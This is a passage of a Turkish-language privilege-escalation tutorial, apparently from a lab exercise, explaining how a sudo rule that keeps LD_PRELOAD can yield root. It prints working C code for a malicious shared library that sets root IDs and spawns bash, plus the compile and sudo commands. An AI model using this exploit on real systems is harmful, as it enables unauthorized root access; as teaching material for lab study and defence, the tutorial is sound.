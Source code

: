 Kısacası, bir programa kendi kodumuzu enjekte etmenin bir yoludur.

**Saldırı Senaryosu:**

1.  **Koşulu Kontrol Et:** `sudo -l` çıktısında `env_keep` direktifini ararız.
    
    ```
    Matching Defaults entries for karen on machine:
        env_reset, env_keep+=LD_PRELOAD
    ```
    
    Eğer `env_keep+=LD_PRELOAD` satırını görürsek, bu, `sudo` ile bir komut çalıştırdığımızda `LD_PRELOAD` değişkeninin sıfırlanmayacağı ve korunacağı anlamına gelir. Bu, saldırı için yeşil ışıktır!
    
2.  **Zararlı Kütüphaneyi Oluştur:** Metindeki C kodunu bir dosyaya (`shell.c`) kaydedelim. Bu kodun ne yaptığına bakalım:
    
    C
    
    ```
    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    
    void _init() {
        unsetenv("LD_PRELOAD"); // Tekrar tetiklenmemesi için kendini temizler.
        setgid(0);             // Grup kimliğini root (0) yap.
        setuid(0);             // Kullanıcı kimliğini root (0) yap.
        system("/bin/bash");   // Bu yeni root kimliğiyle bir bash kabuğu başlat.
    }
    ```
    
    `_init()` fonksiyonu, bir kütüphane yüklendiğinde otomatik olarak çalışan özel bir fonksiyondur. Yani bizim kodumuz, asıl program (örneğin `apache2`) başlamadan hemen önce çalışacak.
    
3.  **Kütüphaneyi Derle:** Bu C kodunu, paylaşımlı bir kütüphane (`.so` dosyası) olacak şekilde derlememiz gerekir.
    
    Bash
    
    ```
    karen@machine:~$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
    ```
    
    - **`gcc`**: C derleyicisi.
    - **`-fPIC`**: Position-Independent Code. Paylaşımlı kütüphaneler için zorunludur.
    - **`-shared`**: Çıktının paylaşımlı bir kütüphane olacağını belirtir.
    - **`-o shell.so`**: Çıktı dosyasının adı.
    - **`shell.c`**: Kaynak kod dosyamız.
    - **`-nostartfiles`**: Standart başlangıç dosyalarını kullanma, bizim `_init` fonksiyonumuz var.
4.  **Saldırıyı Gerçekleştir:** Şimdi `sudo` ile çalıştırma yetkimiz olan herhangi bir komutu, `LD_PRELOAD` değişkenini bizim zararlı kütüphanemize ayarlayarak çalıştırırız.
    
    Bash
    
    ```
    karen@machine:~$ sudo LD_PRELOAD=/home/karen/shell.so /usr/sbin/apache2
    ```
    